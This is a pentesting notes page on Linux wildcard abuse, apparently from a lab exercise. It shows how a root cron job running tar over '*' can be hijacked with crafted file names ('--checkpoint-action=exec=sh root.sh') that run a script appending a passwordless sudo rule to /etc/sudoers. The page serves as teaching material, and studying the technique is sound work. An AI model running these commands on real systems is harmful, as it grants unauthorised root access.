

repository: amandaguglieri/hackinglife · page: linux-wildcard-abuse/index.html · generator: mkdocs

---
title: Linux Wildcard Abuse
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
# Linux Wildcard Abuse

 wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions. Examples of wild cards include:

| **Character** | **Significance**                                                                                                                                      |
| ------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------- |
| `*`           | An asterisk that can match any number of characters in a file name.                                                                                   |
| `?`           | Matches a single character.                                                                                                                           |
| `[ ]`         | Brackets enclose characters and can match any single one at the defined position.                                                                     |
| `~`           | A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory. |
| `-`           | A hyphen within brackets will denote a range of characters.                                                                                           |

We see this in a cronjob:

```shell-session
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

We can abuse the wildcard `*`.  The key to this attack is how the wildcard * works in Linux. When used in a command like:

```
tar -zcf /home/htb-student/backup.tar.gz *
```

The shell expands `*` **before** executing the command. It replaces `*` with all filenames in the directory. So if we create these files in the directory:

```shell-session
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

Then the directory will contain:

```
--checkpoint=1 --checkpoint-action=exec=sh root.sh file1.txt file2.txt
```

And the actual command that will run is:

```
tar -zcf /home/htb-student/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh root.sh file1.txt file2.txt`
```

This means `tar` receives `--checkpoint=1` and `--checkpoint-action=exec=sh root.sh` as **actual command-line arguments**. Because `tar` supports these flags, it executes `sh root.sh`, leading to privilege escalation.
